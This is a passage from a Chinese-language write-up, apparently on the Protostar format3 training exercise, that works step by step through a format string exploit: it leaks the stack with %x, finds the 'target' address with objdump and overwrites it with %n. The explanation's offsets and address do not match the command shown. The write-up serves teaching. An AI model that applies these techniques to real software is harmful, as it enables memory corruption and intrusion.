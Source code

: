 ## 寻找偏移

接下来，我们需要找到在堆栈上可以看到我们提供的输入的偏移量。如果我们尝试添加几个更多的`%x`，我们可以在第 12 个位置找到偏移量。

```
**$ python -c 'print "AAAA" + "|%08x" * 12' | /opt/protostar/bin/format3** 
AAAA|00000000|bffff590|b7fd7ff4|00000000|00000000|bffff798|0804849d|bffff590|00000200|b7fd8420|bffff5d4|**41414141    <-- chr(0x41) = "A"**
target is 00000000 :(
```

## 寻找“目标”变量地址

我们将使用`objdump`来查找`target`的地址:

```
**$ objdump -t /opt/protostar/bin/format3 |grep target**
**080496f4** g     O .bss 00000004              target
```

找到的地址是`0x080496f4`。把这个转换成 little-endian 格式= `\xf4\x96\x04\x08`。

现在，将提供的输入更改为`target`地址。但是这次我们来看看能否用`%n` (= *将字符写入指针*)在内存中写点东西。

```
**$ python -c 'print "\xf4\x96\x04\x08" + "%12$08n" * 12' | /opt/protostar/bin/format3** 
��
target is 00000004 :(    **<-- It wrote "4" at the "target" location*****### Format String Explanation
"%4$08n"*** *= Directly access the 4th parameter on stack with "4$" and 
           write the address* (\xe4\x96\x04\x08**)** *there with "%08n"*
```

太好了。我们可以看到值`0x00000004`已经被写入`target`地址位置。
